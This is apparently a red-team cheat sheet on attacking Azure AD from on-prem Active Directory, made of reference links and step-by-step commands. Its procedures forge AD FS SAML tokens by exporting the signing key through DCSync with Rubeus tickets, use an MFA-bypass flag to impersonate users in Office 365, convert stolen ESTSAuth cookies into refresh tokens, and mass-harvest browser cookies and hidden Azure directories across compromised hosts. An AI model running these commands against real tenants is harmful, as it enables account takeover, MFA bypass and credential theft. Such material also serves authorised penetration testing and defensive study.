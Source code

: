 # On-Prem → Cloud

- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/](https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/)
- [https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/](https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/)




## Dumping AAD Connect Creds

- [https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/](https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/)
- [https://aadinternals.com/post/adsync/](https://aadinternals.com/post/adsync/)
- [https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729](https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729)
- [https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/](https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/)
- [[PDF] Hacking Azure AD via Active Directory (Dirk-jan Mollema, @_dirkjan)](https://dirkjanm.io/assets/raw/TR19-Im%20in%20your%20cloud.pdf)



### Tools

- [https://github.com/dirkjanm/adconnectdump](https://github.com/dirkjanm/adconnectdump)
- [https://github.com/Hagrid29/DumpAADSyncCreds](https://github.com/Hagrid29/DumpAADSyncCreds)




## Forging AD FS SAML Tokens

- [https://aadinternals.com/post/adfs/](https://aadinternals.com/post/adfs/)
- [https://github.com/Gerenios/AADInternals/tree/ff0d29fd77cbcb32ce2a1837a1d94d8be0be8466](https://github.com/Gerenios/AADInternals/tree/ff0d29fd77cbcb32ce2a1837a1d94d8be0be8466)
- [https://github.com/Azure/SimuLand/blob/main/docs/labs/GoldenSAML/simulation/export-adfs-dkm-key/exportADFSDKMKeyDRS.md](https://github.com/Azure/SimuLand/blob/main/docs/labs/GoldenSAML/simulation/export-adfs-dkm-key/exportADFSDKMKeyDRS.md)

Install AADInternals v0.9.3:

```
PS > Install-Module -Name "AADInternals" -RequiredVersion "0.9.3" -Force
PS > Import-Module -Name "AADInternals" -RequiredVersion "0.9.3" -Force
```

Check if Azure is configured as a party trust:

```
PS > Install-WindowsFeature ADFS-Federation
PS > Import-Module ADFS
ADFS > Get-ADFSRelyingPartyTrust | select Identifier | fl
```

Get AD FS config:

```
AADInt > $ADFSConfig = Export-AADIntADFSConfiguration -Hash <ADFS_SVC_NT_HASH> -SID <ADFS_SVC_SID> -Server ADFS01.megacorp.local
PS > [xml]$xml=$ADFSConfig
PS > $group = $xml.ServiceSettingsData.PolicyStore.DkmSettings.Group
PS > $container = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ContainerName
PS > $parent = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ParentContainerDn
PS > $base = "LDAP://CN=$group,$container,$parent"
PS > $base
```

Get private key object GUID:

```
PV3 > Get-DomainObject -LDAPFilter "(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))" -SearchBase "CN=ADFS,CN=Microsoft,CN=Program Data,DC=megacorp,DC=local" | select objectGuid
```

Ensure you have enough privileges to DCSync:

```
Cmd > Rubeus.exe asktgt /user:DC01$ /domain:megacorp.local /dc:DC01.megacorp.local /aes256:<AES_KEY> /opsec /nowrap /ptt
Cmd > Rubeus.exe asktgs /ticket:<TICKET> /domain:megacorp.local /dc:DC01.megacorp.local /service:LDAP/DC01.megacorp.local /nowrap /ptt
```

DCSync the key:

{% hint style="info" %}
We don't actually need clear-text creds to replicate the key if we've already imported a privileged TGT, so `$Credentials` ([here](https://github.com/Gerenios/AADInternals/blob/49a9659b60672f08428e72148b66dfe4629562da/DRS_Utils.ps1#L242), `C:\Program Files\WindowsPowerShell\Modules\AADInternals\0.9.3\DRS_Utils.ps1`) can be omitted.
{% endhint %}

```
AADInt > $ADFSKey = Export-AADIntADFSEncryptionKey -Server DC01.megacorp.local -ObjectGuid <GUID> -Credentials "dummy"
PS > [System.BitConverter]::ToString($ADFSKey)
```

Generate the token signing certificate:

```
AADInt > Export-AADIntADFSCertificates -Configuration $ADFSConfig -Key $ADFSKey
PS > ls ADFS_*
```

Get AD FS trust issuer as well as on-prem users' immutable cloud IDs:

```
ADFS > $Issuer = (Get-ADFSProperties).Identifier.OriginalString
PV3 > Get-DomainUser | select UserPrincipalname, @{Name="ImmutableId"; Expression={"$([Convert]::ToBase64String(([guid]$_.ObjectGuid).ToByteArray()))"}}
```

Generate forged SAML request-response for WS-Federation (SOAP-based) protocol interchange:

```
AADInt > $token = New-AADIntSAMLToken -ImmutableId <ID> -PfxFileName .\ADFS_signing.pfx -Issuer $Issuer [-UPN j.doe@megacorp.com] [-ByPassMFA]
AADInt > New-WSFedResponse -SAMLToken $token
```

Generate forged SAML request-response for SAML 2.0 (XML-based) protocol interchange:

```
AADInt > $token = New-AADIntSAML2Token -ImmutableId <ID> -PfxFileName .\ADFS_signing.pfx -Issuer $Issuer [-UPN j.doe@megacorp.com]
AADInt > $resp = New-AADIntSAMLPResponse -SAML2Token $token
AADInt > [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($resp))
```

Generate forged SAML request-response, impersonate and login:

```
AADInt > Open-AADIntOffice365Portal -TokenType WSFED/SAMLP -ImmutableId <BASE64_ID> -PfxFileName .\ADFS_signing.pfx -Issuer $Issuer [-UPN j.doe@megacorp.com] [-ByPassMFA] [-Browser Chrome]
```




## Pass-the-Cookie

- [https://blog.netwrix.com/2022/11/29/bypassing-mfa-with-pass-the-cookie-attack/](https://blog.netwrix.com/2022/11/29/bypassing-mfa-with-pass-the-cookie-attack/)



### Refresh Token from ESTSAuth* Cookies

Automated with [TokenTacticsV2](https://github.com/f-bader/TokenTacticsV2?tab=readme-ov-file#get-a-refresh-token-from-estsauth-cookie):

```
PS > Get-AzureTokenFromESTSCookie -ESTSAuthCookie <COOKIE_VALUE>
```



### Mass Cookies Harvesting

Collect with [dploot](https://github.com/zblurx/dploot) and decrypt with a backup key (similar to [HEKATOMB](https://github.com/ProcessusT/HEKATOMB)):

```
$ ls tickets/
SRV01.ccache   SRV02.ccache   PC01.ccache
$ for st in `ls tickets/`; do comp=`basename $st .ccache`; KRB5CCNAME="tickets/$st" proxychains4 dploot browser -d megacorp.local -no-pass -use-kcache "$comp.megacorp.local" -pvk ../key.pvk -show-cookies > "browsers_$comp.out"; done
```

Search for `ESTSAUTHPERSISTENT` cookies:

```
$ grep -nr --include '*.out' ESTSAUTHPERSISTENT -A3 | grep -e Creation -e Expires
```




## Mass Hidden Directories Searching

Impacket's **smbclient.py** extension (searches for hidden directories in every user's home):

```python
def do_hidden(self, args=None):
    hidden = []
    for item1 in self.smb.listPath(self.share, '\\Users\\*'):
        longname1 = item1.get_longname()
        if item1.is_directory() and longname1 not in ('.', '..'):
            dir0 = ntpath.join('\\Users', longname1)
            try:
                ls = self.smb.listPath(self.share, ntpath.join(dir0, '*'))
            except:
                continue
            else:
                for item2 in ls:
                    longname2 = item2.get_longname()
                    if item2.is_directory() and longname2 not in ('.', '..') and longname2.startswith('.'):
                        hidden.append((item2, ntpath.join(dir0, longname2)))
    result = ''
    for item, name in hidden:
        result += 'drw-rw-rw- '
        result += f'{datetime.fromtimestamp(item.get_mtime_epoch()).strftime("%Y/%m/%d %H:%M:%S"):>21} '
        result += '  '
        result += name
        result += '\n'
    print(result.strip())
```

Collect hidden directories:

```
$ ls tickets/
SRV01.ccache   SRV02.ccache   PC01.ccache
$ echo 'use c$\ninfo\nhidden' > cmd
$ for st in `ls tickets/`; do comp=`basename $st .ccache`; KRB5CCNAME="tickets/$st" proxychains4 smbclient.py -k -no-pass "$comp.megacorp.local" -inputfile cmd -outputfile "hidden_$comp.out"; done
```

Search for hidden directories that start with `.az`:

```
$ grep -nr --include '*.out' '\Users' | grep -i '\.az'
```
